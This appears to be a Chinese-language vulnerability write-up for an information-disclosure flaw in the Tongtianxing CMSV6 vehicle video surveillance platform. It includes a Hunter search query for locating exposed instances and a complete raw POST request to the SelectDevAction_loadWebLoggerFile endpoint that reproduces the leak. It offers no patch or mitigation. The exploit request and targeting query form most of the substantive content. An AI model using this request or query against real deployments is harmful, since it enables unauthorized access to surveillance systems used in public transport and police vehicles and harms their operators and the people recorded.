 # 通天星CMSV6车载视频监控平台 SelectDevAction_loadWebLoggerFile存在信息泄露漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台SelectDevAction_loadWebLoggerFile存在信息泄露漏洞。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/TXQxrAkI_D_RFddr/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-856466.png)

# 四、漏洞复现
```plain
POST /808gps/LoggerManagement/SelectDevAction_loadWebLoggerFile.action HTTP/1.1
Host: 
Content-Length: 103
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
jsessionId: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=87F04E406314662DEF40451BC5114457
Connection: close

page=1&rp=15&query=&qtype=&pagin=%257B%2522currentPage%2522%253A1%252C%2522pageRecords%2522%253A15%257D
```

![1706862603015-66ad1edb-9862-424f-8dd7-5ceef0e610f9.png](./img/TXQxrAkI_D_RFddr/1706862603015-66ad1edb-9862-424f-8dd7-5ceef0e610f9-748844.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xfqhkpt5end64g2q>